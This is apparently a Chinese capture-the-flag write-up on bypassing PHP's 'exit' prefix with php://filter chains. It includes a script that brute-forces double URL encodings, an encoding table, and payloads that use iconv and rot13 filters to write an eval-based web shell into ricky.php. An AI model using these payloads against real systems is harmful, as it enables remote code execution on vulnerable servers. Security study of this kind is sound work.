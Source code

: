 进入的时候 html 网页本身会解码一次, 然后写入文件时伪协议会对 url 编码的 payload 处理一次 payload, %25 被ban后就尝试寻找其它的二次编码突破口

```php
<?php
//$char = 'abcdefghigklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$(){}[]"\'|\\/-+=*&^`~.';  # 构造全部的二次编码
for ($i = 0; $i < strlen($char); $i++) {
    for ($ascii1 = 0; $ascii1 < 256; $ascii1++) {
        for ($ascii2 = 0; $ascii2 < 256; $ascii2++) {
            $aaa = '%' . $ascii1 . '%' . $ascii2;
            if (urldecode(urldecode($aaa)) == $char[$i]) {
                echo $char[$i] . ': ' . $aaa;
                echo "\n";
            }
        }
    }
}
?>
```

可以得到一些比较常用的特别的二次编码

```
a: %6%31
b: %6%32
i: %6%39
q: %7%31
r: %7%32
u: %7%35
U: %5%35
```

测试了一下base64过滤器, 效果很差, 于是采用了 rot 和 iconv, 原题说是需要爆破临时文件才能得到解, 临时文件的命名规则如下: 

- 默认为 php+4或者6位随机数字和大小写字母

- php[0-9A-Za-z]{3,4,5,6}

然后就是通过爆破临时文件然后 require_once 包含木马, 研究过滤器后发现并不需要这么做

### 非预期

payload

```
# iconv 2次转换摧毁死亡函数 exit
php://filter/write=convert.%6%39conv.%5%35CS-2LE.%5%35CS-2BE|?<hp pe@av(l_$OPTSh[ca]k;)>?/resource=ricky.php
# iconv+rot13 2次转换后解码摧毁死亡函数 exit
php://filter/write=convert.%6%39conv.%5%35CS-2LE.%5%35CS-2BE|?<uc cr@ni(y_$BCGFu[pn]x;)>?|string.%7%32ot13|/resource=ricky.php
```

这两种方法即可直接破坏本身存在的 `<?php` 开头的任何文件, 分别会得到这样的文件内容

```
# iconv 2次转换摧毁死亡函数 exit
?<hp pxeti)(p;ph/:f/liet/rrwti=eocvnre.t6%c9no.v5%C5-SL2.E5%C5-SB2|E<?php @eval($_POST[hack]);?>r/seuocr=eirkc1yp.ph
# iconv+rot13 2此转换后解码摧毁死亡函数 exit
?<uc ckrgv)(c;cu/:s/yvrg/eejgv=rbpiaer.g6%p9ab.i5%P5-FY2.R5%P5-FO2|R<?php @eval($_POST[hack]);?>f|egav.t7%b21g|3e/frhbpe=rvexp.luc
```
